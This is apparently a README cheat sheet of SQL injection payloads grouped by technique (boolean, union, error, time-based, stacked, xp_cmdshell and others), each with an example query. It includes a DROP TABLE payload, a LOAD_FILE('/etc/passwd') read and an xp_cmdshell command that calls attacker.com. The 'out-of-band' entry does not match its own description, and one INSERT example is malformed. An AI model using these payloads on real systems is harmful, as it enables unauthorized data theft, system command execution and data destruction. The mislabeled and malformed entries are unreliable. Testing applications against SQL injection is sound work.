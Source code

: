 
---

## 🚀 Queries for Testing

Below are some sample SQL injection queries for different types of attacks. These queries can be used for testing and securing applications against SQL injection vulnerabilities.

---

## 🚀 Boolean-Based SQL Injection
Bypass authentication or extract information using `OR` conditions.

```sql
' OR 1=1; --
```
**Example:**
```sql
SELECT * FROM users WHERE username = 'admin' AND password = '' OR 1=1; --';
```

---

## 🚀 Union-Based SQL Injection
Extract data from other tables by combining the result with a `UNION`.

```sql
' UNION SELECT username, password FROM admin_users; --
```
**Example:**
```sql
SELECT id, username FROM users WHERE id = 1 UNION SELECT id, password FROM admin_users;
```

---

## 🚀 Error-Based SQL Injection
Trigger database errors to reveal information.

```sql
' AND 1=CONVERT(int, (SELECT @@version)); --
```
**Example:**
```sql
SELECT * FROM users WHERE id = 1 AND 1=CONVERT(int, (SELECT @@version)); --
```

---

## 🚀 Blind (Time-Based) SQL Injection
Infer information by checking server response time.

```sql
' OR IF(1=1, SLEEP(5), 0); --
```
**Example:**
```sql
SELECT * FROM users WHERE username = 'admin' AND IF(1=1, SLEEP(5), 0); --
```

---

## 🚀 Out-of-Band SQL Injection
Send data to an external server using network calls.

```sql
' UNION SELECT LOAD_FILE('/etc/passwd'); --
```
**Example:**
```sql
SELECT * FROM users WHERE username = 'admin' UNION SELECT LOAD_FILE('/etc/passwd'); --
```

---

## 🚀 Stacked Queries (Batch Execution)
Execute multiple statements by chaining with `;`.

```sql
'; DROP TABLE users; --
```
**Example:**
```sql
INSERT INTO orders (product, quantity, price) VALUES ('story', 58); DROP TABLE orders; --
```

---

## 🚀 Extract Database Info (Metadata)
Get table structure or other metadata.

```sql
' UNION SELECT table_name FROM information_schema.tables; --
```
**Example:**
```sql
SELECT username FROM users UNION SELECT table_name FROM information_schema.tables WHERE table_schema = 'public';
```

---

## 🚀 Command Injection via xp_cmdshell
Execute system commands (on MS SQL Server).

```sql
' ; EXEC xp_cmdshell('ping -n 1 attacker.com'); --
```
**Example:**
```sql
SELECT * FROM users WHERE id = 1; EXEC xp_cmdshell('ping -n 1 attacker.com'); --
```

---

## 🚀 Cast-Based Injection
Exploit type casting to extract information.

```sql
' AND 1=CAST('abc' AS int); --
```
**Example:**
```sql
SELECT * FROM users WHERE username = 'admin' AND CAST('abc' AS int) = 1;
```

---

## 🚀 Subquery Injection
Extract nested information using subqueries.

```sql
' AND (SELECT password FROM admin WHERE id=1) = 'admin'; --
```
**Example:**
```sql
SELECT * FROM users WHERE username = 'admin' AND (SELECT password FROM admin WHERE id=1) = 'admin'; --
```

---

**⚠️ Disclaimer:** Use these queries for educational and testing purposes only. Do not use them for malicious intent. 

---

